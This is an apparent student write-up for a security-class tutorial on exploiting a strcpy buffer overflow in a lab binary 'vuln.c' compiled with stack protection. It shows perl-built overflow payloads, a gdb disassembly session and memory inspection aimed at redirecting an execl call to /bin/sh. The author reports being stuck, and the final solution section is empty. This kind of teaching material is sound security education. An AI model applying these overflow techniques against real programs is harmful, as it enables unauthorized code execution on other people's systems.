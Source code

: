 # Solutions TP6

## 6.2 Evading Stack Protection
> In "vuln.c" is a program that has a vulnerability even when compiled with stack protection. This file can be built with: `gcc -z execstack -o vuln vuln.c`, optionally you can also include debugging information with "-g".
> 
> NOTE: we do compile with stack protection! The goal of this part of the tutorial is for you to exploit code with stack protection enabled!
> 
> We can run this program with: `./vuln AAAA BBBB` and see that we are shown some memory addresses (these are included to help you).
> 
> By examining the code we can see that there is an instance of strcpy that we can probably exploit.
> 
> The goal is to provide command line arguments that allow you to execute a shellcode (of your choice, but a simple /bin/sh one is fine including taking one from an earlier tutorial).
> 
> HINT: Use the first strcpy to overflow and change the value of where "p" points to.

### Idea :bulb:
We can see that in function *f*, an unsfae call to *strcpy* is made, copying the whole string passed in `argv[1]` in a char array of size 30.  This is a good entry point for a buffer overflow.  
We can also see that we have a pointer, `p` (initially set equal to the pointer of the array), that we use as destination for our *strcpy*.  We can then overwrite the value of this pointer with the first argument (and first call to *strcpy*) by doing an overflow on the array, and then write our interesting command wherever we want with the second argument (and second call to *strncpy*).

### Step by step :walking:
**1. Overwriting p** This is quite simple, we have done it plenty of time before, we can simply run the program with a string of more than 30 caracters.
```console
$ ./vuln `perl -e 'print "\x90"x30 . "\x42"x4'` BBBB
p=bffff2fe       -- before 1st strcpy
p=42424242       -- after 1st  strcpy
Segmentation fault
```
Of course we get a *Segmentation fault* as we try to write to the address `0x42424242` with our second *strncpy*, which is probably not a writable one.

**2. Execl arguments**  The final goal will be to change the argument passed to *execl*, to give it a command that would open a shell (`/bin/sh`).  To do this, we need to know where is this argument stored in memory.  
> From here I am not very sure of what I'm doing, there might be better way of proceeding.  

First we need to know what we are looking for, in memory the initial first argument won't be presented in convenient ascii characters but in heaxadecimal values, so let's check what those values would be (you can use any online coverter for this):
```
back_to_vul --> 62 61 63 6b 5f 74 6f 5f 76 75 6c 0d 0a
```
In gdb, we can run the file one time to fix the addresses, then disass the main function.
```console
$ (gdb) run aaa bbb
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln aaa bbb
...
$ (gdb) disass main
Dump of assembler code for function main:
   ...
   0x00401290 <+45>:    push   $0x0
   0x00401292 <+47>:    lea    -0x1fa9(%ebx),%eax
   0x00401298 <+53>:    push   %eax
   0x00401299 <+54>:    lea    -0x1fa8(%ebx),%eax
   0x0040129f <+60>:    push   %eax
   0x004012a0 <+61>:    call   0x401080 <execl@plt>
   ...    
End of assembler dump.
```
We can see here the three arguments of *execl* being pushed to the stack before the call of the function, the last one being the first argument of the function (the one we have interest in).  To see what is the value pushed on the stack, we can add a breakpoint just after this last push, and see what is the value of `eax` at this moment.  By printing the content of the memory at this address, we should then find the string *back_to_vul" (in hexadecimal of course).
```console
$ (gdb) b *0x40129f
Breakpoint 1 at 0x40129f: file vuln.c, line 23.
$ (gdb) run aaa bbb
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln aaa bbb
...
Breakpoint 1, 0x0040129f in main ()
$ (gdb) i r $eax
eax            0x402058            4202584
$ (gdb) x/4xw 0x402058
0x402058:       0x6b636162      0x5f6f745f      0x006c7576      0x20646e45
```
We found the address (`0x00402058`) of the string to overwrite!

**3. Overwriting execl argument**
This is where I'm stuck, of of the caracters that we would need to pass in argument of the function is `\x20`, which correspond to the space character...  In theory we would need to simply do this:
```console
$ (gdb) run `perl -e 'print "\x90"x30 . "\x58\x20\x40"'` /bin/sh
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln `perl -e 'print "\x90"x30 . "\x58\x20\x40"'` /bin/sh
p=bffff28e       -- before 1st strcpy
p=bfff0058       -- after 1st  strcpy
```
But we can see that the first argument passed to the function will be cut after the space character...

### Final solution :running:
